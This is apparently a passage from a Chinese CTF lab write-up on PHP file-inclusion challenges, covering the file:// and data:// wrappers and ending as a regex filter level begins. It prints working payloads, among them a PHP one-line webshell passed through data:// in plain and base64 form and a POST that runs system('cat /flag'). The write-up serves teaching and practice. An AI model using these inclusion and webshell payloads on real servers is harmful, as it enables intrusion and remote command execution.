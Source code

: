 协议的介绍请跟进每个关卡中注释引导部分。

由于题目限定使用file协议：`include("file://".$_GET['wrappers'])` 所以你只能使用绝对路径来完成题目，当然，题目使用 `__DIR__` 告知了你当前路径，

若按照题目提示`?wrappers=/var/www/html/phpinfo.txt` 可以包含当前路径下的  `<?php phpinfo(); ?>`  您可以看到 phpinfo 页面，虽然为.txt文本文件，但文件内容符合php代码规范，因此它能够被执行 —— 这一定说明，被包含的文件是否能被执行只取决于其文件内容。

若按照题目提示 `?wrappers=/var/www/html/flag.php` 你会发现屏幕没有任何变化，F12查看源码也没有发现任何注释的新增，这是因为 flag.php 中 flag以静态变量形式存储：

```
<?php $flag = "HelloCTF{Test_Flag}"; ?>
```

由于并没有输出操作，它只会被加载到服务器或者说容器的内存中，这种形式的FLAG您无法通过单纯包含得到。

本题 Flag 有文本形式，只需要包含根目录下的 flag 文本即可： `?wrappers=/flag` 

最终执行的操作语句：`include("file:///flag");`

### Level 2 data协议

在注释引导中对该协议已经介绍的非常详细，其支持文本和base64形式。

> 如果传入的数据是PHP代码，就会执行代码：
>```
> data://text/plain,<?php phpinfo();?>
>
> data://text/plain,<?php eval($_POST['helloctf']);?>
>
> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
>
> data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGxvY3RmJ10pOz8+
>
> or data:text/plain
>```

当然要注意，去包含data协议中的内容其实相当于进行了一次远程包含，所以data协议的利用条件需要 `php.ini` 中开启 `allow_url_fopen` 和 `allow_url_include`

题目限定使用data协议：` include("data://text/plain".$_GET['wrappers'])`

本关卡的解法可以用引导中提供的一句话木马(文本和base64两种形式均可)：

**GET:** `?wrappers=,<?php eval($_POST['helloctf']);?>` 然后 **POST:**`helloctf=system('cat /flag');`

>当然您也可以尝试去 `cat flag.php` 这不会执行该部分代码，但是结果可能会以注释的方式添加到当前页面，所以请注意查看源代码。
>
>或者 建议使用 tac —— tac命令与cat命令展示内容相反，用于将文件以行为单位的反序输出，即第一行最后显示，最后一行先显示。

### Level 3 data协议_2

该关卡添加了过滤，但依旧只能使用data协议，观察正则和可用字符：

```php
<?php
$all_chars = array_merge(range(chr(32), chr(126)));

$regex = "/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i";

echo "可用字符: "."\n";
foreach ($all_chars as $char)
{
    if (!preg_match($regex, $char))
    {  
        echo $char." ";
        } 
    } 
    
?>
```